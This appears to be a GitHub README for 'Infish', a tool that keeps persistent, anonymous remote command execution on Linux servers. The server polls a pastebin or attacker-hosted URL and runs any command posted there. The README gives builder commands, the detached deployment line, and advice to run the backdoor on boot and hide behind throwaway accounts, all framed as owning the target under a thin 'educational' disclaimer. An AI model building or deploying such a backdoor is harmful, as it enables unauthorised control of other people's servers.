 # Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **even reboot** can not save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on a predefined url or pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

There are two ways to build the final product.

- Using a raw paste url (or a website you control. Observe opsec though.)
- Using your pastebin dev api key, username, and password


## Using a raw url

This is when you already have a webpage (observe opsec) or have already created a paste by hand. Get the **raw paste url** or the url or the page and run the following command

```bash
bash infish-builder url pastebin.com/raw/abc123
```

```bash
bash infish-builder url somesite.com/cmdpage
```
**You can also use this is you have a url you host on the internet**.

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
>bash infish-builder key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully built infinite shell

```

A file called '.infish' is created.

Finally on the server, run

```bash
nohup bash .infish & disown
```

Now, you can edit your paste to any shell command and the server will run it.

That's it, you own the server. If you have root access, you can set the last command to run on boot.

If you're confused or have no idea what's going on on this page, then you should not be here. Go build cute websites and apps.




Stay Dangerous :)
